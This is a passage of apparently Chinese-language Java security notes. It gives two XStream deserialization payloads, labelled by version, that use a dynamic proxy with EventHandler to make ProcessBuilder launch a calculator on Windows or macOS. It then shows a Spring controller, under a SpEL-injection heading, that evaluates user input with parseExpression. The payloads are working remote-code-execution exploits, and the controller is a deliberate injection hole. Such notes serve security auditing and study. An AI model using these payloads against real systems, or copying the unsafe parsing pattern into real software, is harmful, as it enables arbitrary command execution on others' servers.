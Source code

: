 - <=1.4.6
- =1.4.10
```java
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

- <=1.4.6
- = 1.4.10
```java
<sorted-set>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>open</string>
                    <string>/System/Applications/Calculator.app</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

<a name="LusQ0"></a>
### SPEL注入表达式
快速定位parseExpression
```java
    @RequestMapping("/test")
    @ResponseBody
    public String test(String input){
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(input);
        return expression.getValue().toString();
    }
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1646445205400-fd7a541e-5edf-48b7-99ae-3453983f9294.png#clientId=ub3083a93-70c9-4&from=paste&height=133&id=u2890bc1d&originHeight=144&originWidth=718&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6481&status=done&style=none&taskId=ua1d980f2-0f7f-4a54-92d2-6463af4d34d&title=&width=661)
